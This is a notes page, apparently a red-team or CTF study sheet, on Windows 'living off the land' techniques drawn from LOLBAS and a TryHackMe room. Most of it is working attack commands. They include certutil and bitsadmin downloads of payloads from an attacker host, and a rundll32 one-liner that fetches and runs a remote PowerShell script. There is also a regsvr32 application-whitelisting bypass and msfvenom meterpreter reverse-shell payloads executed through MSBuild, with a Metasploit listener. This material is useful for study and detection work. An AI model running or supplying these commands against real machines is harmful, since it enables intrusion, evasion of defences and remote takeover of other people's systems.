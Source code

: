 # Windows Living Off The Land

## Sysinternals

Due to the inherent trust Sysinternals has within the Operating system its use does get monitored by Blue Teams. See the [[Sysinternals-Hub]] for connecting links to all the tools eventually.

## LOLBAS
*"The goal of the [LOLBAS](https://lolbas-project.github.io/)  project is to document every binary, script, and library that can be used for Living Off The Land techniques. The phrase "Living off the land" was coined by Christopher Campbell (@obscuresec) & Matt Graeber (@mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).* The Site [LOLBAS](https://lolbas-project.github.io/) has search functionality for ease of use.

#### Criteria

A LOLBin/Lib/Script must:

-   Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
-   Have extra "unexpected" functionality. It is not interesting to document intended use cases.
    -   Exceptions are application whitelisting bypasses
-   Have functionality that would be useful to an APT or red team

Interesting functionality can include:

-   Executing code
    -   Arbitrary code execution
    -   Pass-through execution of other programs (unsigned) or scripts (via a LOLBin)
-   Compiling code
-   File operations
    -   Downloading
    -   Upload
    -   Copy
-   Persistence
    -   Pass-through persistence utilizing existing LOLBin
    -   Persistence (e.g. hide data in ADS, execute at logon)
-   UAC bypass
-   Credential theft
-   Dumping process memory
-   Surveillance (e.g. keylogger, network trace)
-   Log evasion/modification
-   DLL side-loading/hijacking without being relocated elsewhere in the filesystem.

## File Operation

Certutil can download files and encode files. Certutil is a Windows built-in utility for handling certification service.
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
certutil -decode Encoded_file payload.txt
```

Bitsadmin [BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) 
```powershell
bitsadmin.exe /transfer <jobname> /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe

bitsadmin.exe /transfer NewUpdate /Download /priority High http://Attacker_IP/payload.exe c:\Users\<user>\Desktop\payload.exe
```

Use `findstr` insteading finding text and string patterns in files, find and download remote file from SMB shared folder 
```powershell
findstr /V dummystring \\MachineName\ShareFolder\test.exe > C:\Windows\Temp\test.exe
```


## File Execution

Windows has multiple system binaries that can execute others, MITRE [ATT&CK](https://attack.mitre.org/) called  framework, considers this technique as to be term as either Signed Binary Proxy Execution or Indirect Command Execution.

`explorer.exe` is the file manager and system component for Windows and can perform Indirect Command Execution.
```powershell
# Located
# C:\Windows\explorer.exe - Windows 32 bits version
# C:\Windows\SysWOW64\explorer.exe - Windows 64 bits version
explorer.exe /root,"C:\Windows\System32\cmd.exe"
```

Windows Management Instrumentation (`wmic.exe`) see [[WMI-Commands]] for more), perform [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution  
```powershell
wmic.exe process call create cmd
```

Rundll32 is a Microsoft built-in tool that loads and can run local [[Dynamic-Link-Libraries]], thus run arbitrary payloads and execute JavaScript and PowerShell scripts. This is [ATT&CK Technique](https://attack.mitre.org/techniques/) called Signed Binary Proxy Execution.
```powershell
# Embedded eval() function
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"cmd\");window.close()");
```

```powershell
# run javascript: executing embedded powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```


## Bypassing Application Whitelisting 
Application Whitelisting is a rule-based (approved X.exe only) Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Therefore [LOLBAS](https://lolbas-project.github.io/) are used to bypasses the whitelisting by being whitelisted.

[Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/) is used by Windows to register dlls it can be used to execute arbituary binaries and bypass Whitelisting. According to [https://redcanary.com/](https://redcanary.com/) this the third most popular [ATT&CK Technique](https://attack.mitre.org/techniques/T1218/010/) used to execute native code or scripts locally or remotely **in memory**.
```powershell
# C:\Windows\System32\regsvr32.exe
# C:\Windows\SysWOW64\regsvr32.exe

# DLL reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
# Host and File transfer/Infiltrate it
c:\Windows\System32\regsvr32.exe c:\Users\<user>\Downloads\live0fftheland.dll
# OR
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
# /s - silent mode
# /n - do not call DLL register server
# /u - use another server instead as /n used
# /u - run with unregistered method
```


In 2016, Microsoft added support for the Linux environment on Windows 10,11, and Server 2019: Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)), and it exists in [two WSL versions](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 and WSL2. 
```powershell
bash.exe -c cmd.exe # "/path/to/payload!"
```

## No Powershell

[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) *"Run PowerShell command without invoking powershell.exe"* It relies on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. You can also execute raw shellcode using the same approach.

```bash
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=$IP LPORT=4443 -f psh-reflection > liv0ff.ps1
# Listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost $IP;set lport 4443;exploit"
# Python2.. to convert the payload to be compatible 
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

On target build the `.csproj` file and wait for the reverse shell!
```powershell
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\<user>\Desktop\liv0ff.csproj
```

## cmdl32 

File transfer: Download a file from the web address specified in the configuration file. The downloaded file will be in %TMP% under the name VPNXXXX.tmp where "X" denotes a random number or letter.  

```powershell
cmdl32 /vpn /lan %cd%\config
```


## References
[LOLBAS](https://lolbas-project.github.io/)
[THM Room Living off the land](https://tryhackme.com/room/livingofftheland)
[BitsAdmin Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer)
[WSL](https://docs.microsoft.com/en-us/windows/wsl/about)
[https://redcanary.com/](https://redcanary.com/) 
[ATT&CK](https://attack.mitre.org)